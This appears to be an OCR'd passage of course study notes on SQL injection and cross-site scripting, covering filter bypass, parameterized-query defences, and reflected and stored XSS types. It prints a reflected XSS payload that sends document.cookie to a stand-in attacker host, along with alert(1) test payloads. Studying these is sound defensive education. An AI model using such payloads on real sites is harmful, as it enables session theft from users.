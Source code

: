         *   **Outcome:** The response will include rows from `user` table, mapped to the display columns of the `products` table (e.g., `user.password` might appear where `product.price` usually is).
    *   **f. Meaning of `released = 1`:**
        *   `released` is likely a column in the `products` table (e.g., a boolean or integer).
        *   `released = 1` acts as a filter to only show products that are marked as "published" or "active" (where 1 means TRUE).
        *   The SQLi attacks in Q2 and Q4 (using `-- `) bypass this filter.

4.  **Mitigation & Best Practices (SQLi)**
    *   **Use parameterized queries (prepared statements)** to enforce a strict separation between code and data. This is the primary defense.
    *   **Whitelist input validation:** Reject any characters or patterns that do not conform to expected values.
    *   **Principle of least privilege:** Limit the database account’s permissions to only what the application truly needs.
    *   **Regular security testing** (automated scans, code reviews, penetration tests).
    *   **Web Application Firewall (WAF)** as an additional layer, not a primary defense.

5.  **Opinion on SQLi Defenses (from File 5.1)**
    > Relying on anything other than properly parameterized queries is a risky gamble. All other measures—firewalls, regex filters, manual sanitization—can be bypassed or misconfigured. The only reliable protection against SQLi is to treat user input strictly as data, never as executable SQL.

### B. Cross-Site Scripting (XSS) (Slides 52-56)

1.  **Definition and Goal** (Slide 52)
    *   **Definition:** XSS involves injecting arbitrary client-side code (usually JavaScript) into a web application, which is then executed in a victim's browser.
    *   The vulnerability lies in the application including user-supplied data in its output without proper validation or encoding.
    *   **Goal:** Steal sensitive information from the user's session, such as cookies, session tokens, credentials, or perform actions on behalf of the user.

2.  **Problematic: Unvalidated Input** (Slide 52)
    *   The attack is possible when a web server or application does not validate data provided by users/visitors (e.g., URL parameters, form content) and sends it back to other users without filtering or encoding.

3.  **Main Types** (Slide 52)
    *   **Reflected XSS (Non-permanent):** The malicious script is embedded in a URL or other request data and is reflected back by the server to the victim's browser, which then executes it. (Slide 53)
    *   **Stored XSS (Permanent):** The malicious script is permanently stored on the target server (e.g., in a database, message forum, comment field). When other users access the page containing the stored script, their browser executes it. (Slide 54)

4.  **Examples/Demonstrations (from slides)**
    *   **Reflected XSS Example (Slide 53):**
        *   Victim clicks a crafted link like `https://banque.com/?search=<script>alert(1)</script>`.
        *   The server includes the `<script>alert(1)</script>` in the search results page.
        *   The victim's browser executes the script.
        *   A more malicious example shown: `https://banque.com/?search=<script>var i = new Image; i.src="http://site-attacker.com/"+document.cookie;</script>` (steals cookie).
    *   **Stored XSS Example (Slide 54):**
        *   Attacker injects malicious script (e.g., `<script>alert(1)</script>`) into a comment field on a vulnerable site.
        *   The script is stored by the server.
        *   When other users view the page with that comment, the script executes in their browsers.
    *   **Demonstration Screenshots (Slides 55-56):** These slides show practical examples of XSS payloads in a web security academy lab, one for reflected XSS (search parameter) and one for stored XSS (comment field).
